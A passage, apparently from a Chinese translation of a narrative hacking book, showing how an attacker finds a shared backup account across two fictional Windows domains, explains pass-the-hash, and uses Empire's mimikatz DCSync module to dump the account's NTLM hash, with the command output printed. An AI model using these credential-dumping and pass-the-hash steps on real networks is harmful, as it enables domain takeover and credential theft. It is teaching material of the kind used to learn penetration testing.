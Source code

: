 ```
objectsid : S-1-5-21-2376009117-2296651833-4279148973-1117
admincount : 1
```

现在真有趣！你明白了吗？好的，这可能有点帮助。这些是GBSHOP上的域管理帐户：
![](chap5/chap5-2.jpg)

两个域上似乎都存在同一个sysback帐户（很可能是备份帐户）！如果我们够幸运的话，也许，只是也许他们都有相同的密码…让我们试试！

### 利用信任
我们将转储GBShop域中sysback帐户的密码散列，然后使用它向GBSales shop进行身份验证。由于Windows执行NTLM身份验证的方式，我们不需要破解散列。

回顾下之前讨论过的几段内容，当服务器要求客户端进行身份验证时，后者会发送以下字符串：hash（H+random_number），其中H是密码的hash。

这意味着我们只需要知道密码的散列（称为NTLM散列）就可以形成有效的NTLM响应挑战，并说服服务器允许我们进入。这种攻击已经有20年的历史了，但它仍然被认为是Windows上最强大的伎俩之一。它被称为pass-the-hash攻击。

如何获取随机帐户的哈希值？我们再次使用DCSync！
```
(Empire: DCshop) > usemodule credentials/mimikatz/dcsync
(Empire: dcsync) > set user sysback
(Empire: dcsync) > set domain GBSHOP.CORP
(Empire: dcsync) > run
(Empire: credentials/mimikatz/dcsync) > 
Job started: Debug32_sd5v1
Hostname: SV0199.GBSHOP.CORP / S-1-5-21-2376009117-2296651833-
4279148973
 .#####. mimikatz 2.1 (x64) built on Mar 31 2016 
.## ^ ##. "A La Vie, A L'Amour"
## / \ ## /* * *
 ## \ / ## Benjamin DELPY `gentilkiwi`
 '## v ##' http://blog.gentilkiwi.com/mimikatz (oe.eo)
 '#####' with 18 modules * * */
mimikatz(powershell) # lsadump::dcsync /user:sysback
/domain:GBSHOP.CORP
[DC] 'GBSHOP.CORP' will be the domain
[DC] 'SV0199.GBSHOP.CORP' will be the DC server
[DC] 'sysback' will be the user account
** SAM ACCOUNT **
SAM Username : sysback
User Principal Name : sysback@GBSHOP.CORP
[…]
Credentials:
 Hash NTLM: 26bc129c0ea27a6e66cfaf3080fb7947
 ```
